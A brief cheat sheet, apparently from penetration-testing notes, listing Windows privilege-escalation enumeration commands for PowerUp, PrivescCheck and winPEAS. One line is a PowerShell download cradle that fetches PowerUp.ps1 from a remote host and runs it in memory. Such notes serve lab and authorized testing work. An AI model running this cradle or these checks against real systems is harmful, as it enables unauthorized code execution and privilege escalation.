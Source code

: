 ### PowerUp
```powershell
Import-Module .\PowerUp.ps1
IEX(New-Object Net.WebClient).downloadString('http://192.168.45.x/PowerUp.ps1')
```

```powershell
Invoke-AllChecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
Get-ModifiableService -Verbose
```

### Privesc
```powershell
Import-Module .\PrivEscCheck.ps1
```

```powershell
Invoke-PrivEscCheck
```

### PEASS-ng
```powershell
.\winPEASx64.exe
```